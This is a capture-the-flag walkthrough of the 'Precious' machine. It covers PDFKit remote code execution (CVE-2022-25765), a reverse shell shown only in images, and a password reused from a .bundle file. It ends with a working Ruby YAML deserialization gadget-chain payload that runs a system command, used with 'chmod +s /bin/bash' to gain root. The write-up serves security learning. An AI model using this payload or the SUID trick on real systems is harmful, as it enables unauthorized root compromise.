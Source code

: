```yaml
---
description: PDFkit and Deserialization.
---
```


# Precious

## Gaining Access

**Nmap Scan:**

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

Seems like a web vulnerability exploit kinda machine.

### PDFKit

<figure><img src="../../../.gitbook/assets/image (10) (2) (3).png" alt=""><figcaption></figcaption></figure>

Website to PDF ind of functions run on plugins, and depending on the language used to do this conversion (JS, PHP), there are exploits for them.

For instance, we can redirect this website to our own hosted HTTP server and convert that. Alternatively, attempts can be made in order to exploit the website via LFI to read the files on the machine.

For enumeration purposes, I began by generating a PDF and downloading it to my machine from this website. We can enumerate the PDF to see if there is a particular software being used.

<figure><img src="../../../.gitbook/assets/image (11) (2) (2).png" alt=""><figcaption></figcaption></figure>

This version of pdfkit is vulnerable to RCE using CVE-2022-25765. There are public exploit scripts available for this.

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

Following the exploit, we can test to see if we indeed have RCE:

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

Works! Now we just need to gain a reverse shell. I used a simple bash shell to do so.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Getting Henry

When we gain access as the user ruby, the flag is not there. There is another user named henry in this machine.

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

We don't have permissions to read the flag from henry's directory. However, when poking around ruby's directory and looking into the .bundle directory, we can find henry's password.

<figure><img src="../../../.gitbook/assets/image (6) (3) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can SSH in as henry for a better shell. Then, we can grab the user flag.

### Ruby Deserialization

Checking sudo privileges, we find that henry is able to execute the following:

<figure><img src="../../../.gitbook/assets/image (4) (2) (2).png" alt=""><figcaption></figcaption></figure>

Intriguing. The script is as shown below:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

From the looks of this script, YAML.load function is being used. There are certain deserialization exploits for this. The attack is known as 'YAML Deserialization'

Hacktricks has a relevant page covering it.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

When searching along the lines of Ruby deserialisation attacks through YAML.load, I found this article which included a PoC.

{% embed url="https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/" %}

How this works is thorugh implementing a gadget chain that was previously used with other Ruby YAML exploits. This basically gives us RCE over the machine as root.&#x20;

We just need to put the malicious YAML file in some writeable place and execute it. Works because the script does not check for an absolute path. Here's the PoC:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I changed the command to `chmod +s /bin/bash` and tried it out. Worked!

<figure><img src="../../../.gitbook/assets/image (15) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
